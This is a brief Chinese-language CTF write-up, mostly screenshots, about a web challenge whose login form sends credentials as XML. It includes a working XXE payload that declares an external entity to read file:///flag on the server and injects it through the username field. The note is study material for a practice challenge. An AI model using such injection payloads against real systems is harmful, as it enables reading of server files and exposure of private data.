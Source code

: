 ![](<./img/Pasted image 20221126110208.png>)

---
首页长这样

![](<./img/Pasted image 20221126110251.png>)

有几行js，大意是将用户名和密码通过`xml`传输

![](<./img/Pasted image 20221126110150.png>)

瞎输一通出发了报错，好像可以对发送的`xml`进行注入

![](<./img/Pasted image 20221126110430.png>)

这玩意没咋了解过，就当是学习`XXE`了叭QAQ

https://xz.aliyun.com/t/6887

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [
<!ENTITY flag SYSTEM "file:///flag">
]>
<user>
	<username>&flag;</username>
	<password>123</password>
</user>
```

![](<./img/Pasted image 20221126115039.png>)

#Web #XXE